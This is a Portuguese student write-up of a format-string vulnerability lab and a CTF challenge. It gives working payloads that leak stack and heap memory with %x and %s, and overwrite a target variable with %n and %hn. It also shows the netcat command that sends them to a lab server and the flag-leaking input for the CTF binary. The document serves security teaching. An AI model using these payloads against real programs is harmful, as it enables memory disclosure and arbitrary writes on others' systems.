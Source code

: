 # Trabalho realizado na semana 6

![Task 1](screenshots/1_Crash_Program.png)
A imagem das tasks 2A e 2B é a mesma porque imprimo a target ((0x)11223344) e a mensagem ("A secret message") com a mesma badfile.
![Task 2A e 2B](screenshots/2_Print_Secret_And_Target.png)
![Task 3A](screenshots/3A_Write_Target_Any_Val.png)
![Task 3B](screenshots/3B_Write_Target_0x5000.png)
![Task 3C](screenshots/3C_Write_Target_0xAABBCCDD.png)

## Task 1 - Crashar o programa
Isto pode ser feito colocando pelo menos um %s (ou %n), pois o programa vai procurar para ler ou escrever o local na memória cujo endereço é o valor a seguir ao último argumento da função print.

## Task 2A - Imprimir valores da stack.

Ficheiro de Payload/Badfile:
```
"%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x"
```
Nota: A imagem deste ex é a mesma do 2B, pois no 2B também se imprime valores da stack, como a target.

%x imprime, em hexadecimal, valores da stack acima da format string (pois tem símbolos de format (por exemplo %x) a mais). O primeiro valor acima parece ser a "target variable", pois tem sempre o valor (0x)11223344.
Para chegar ao conteúdo da nossa mensagem (assumo que seja o argumento msg da função myprintf), foi preciso usar 64 "%x", ou seja, o primeiro carater da mensagem estava 64 * 4 = 256 bytes depois do último "argumento" (eg: "%s") da função print.


## Task 2B - Imprimir mensagem secreta (na heap).

Ficheiro de Payload/Badfile:
```
"@%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%s"
```
O número de %x depende das posições de memória dos argumentos do print e da mensagem na chamada à função. No nosso caso, como era 64, usamos 63 "%x".
Os primeiros 4 carateres são o local de memória da mensagem secreta.
O último %s serve para imprimir uma string do local escrito no início da nossa string, ou seja, imprimir a mensagem super secreta.


Bónus:
## Task 3A - Alterar valor da target para um valor qualquer:

Ficheiro de Payload/Badfile:
```
"hP%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%n"
```
%n escreve o número de carateres escrito pelo printf até agora no local de memória pretendido.
Sendo assim, substituimos o endereço de memória da task 2C pela target e substituimos o %s por %n.


## Task 3B - Alterar valor da target para 0x5000:

Ficheiro de Payload/Badfile:
```
"hP%20244d%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%n"
```
Utilizando o argumento width dos argumentos do printf, podemos definir a length mínima da string que queremos imprimir.
Sendo assim, calculamos o quanto seria preciso até ficar 0x5000, ficando 20244.
Este valor imprimido conta como um inteiro, sendo assim, tiramos um %x para compensar o carater extra imprimido.

## Task 3C - Alterar valor da target para 0xAABBCCDD (valor demasiado elevado para estar a imprimir esse número de carateres no ecrã)

Ficheiro de Payload/Badfile:
```
"jPaaaahP%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%.43456d %hn %.8737x%hn"
```
Sendo msg a posição de memória da mensagem na function call myprintf do programa:
msg -> endereço de memória da target + 2
msg + 4 -> filler
msg + 8 -> endereço de memória da target

%hn em vez de %n foi usado para escrever só 2 bytes de cada vez em vez de 4, por isso, tivemos de escrever na target + 2 e depois na target.
Como o número de carateres só pode aumentar e não diminuir, primeiro tivemos de escrever o AABB e depois o CCDD

Ps: No preenchimento de carateres, usamos o argumento de precision, pois é mais ideal do que o que usamos para a task 3B.


Observações:
Quando se corre o programa, concatenando a file usando 'cat badfile | nc 10.9.0.5 9090', se a file fosse menor que o 1500 (o tamanho do buffer), precisavamos de pressionar ctrl c. Se fosse pelo menos 1500, considerava os primeiros 1500 e não era preciso pressionar ctrl c.



# CTF realizado na Semana #6

## Desafio 1

Fazendo checksec do programa fornecido é possivel observar que o programa não tem ativada a condição PIE (Position Independent Executable), o que quer dizer que a alocação de memória não está a ser efetuada de uma forma aleatória.

Olhando agora para o programa em si, é facil encontrar uma vulnerabilidade do tipo format string, já que é feito um scanf para recolher input do utilizador, que de seguido é usado diretamente num printf.

Conseguindo obter o endereço onde a flag está a ser guardada após ser lida do ficheiro, é possível introduzir esse endereço na stack e depois imprimir o conteudo da variável em questão adicionando "%s"

Como a alocação de endereços não é aleatória, podemos descobrir em que endereço a flag está a ser guardada usando um debugger como o gdb para obter esse endereço, que neste caso é 0x804c060. 

Finalmente para conseguir extrair a flag, basta fornecer como input \x60\xc0\x04\x08%s que o programa imprimirá o valor da flag no output do printf da linha 26.

Nota: Como estamos a trabalhar em little endian, o endereço tem que ser escrito nesse formato.



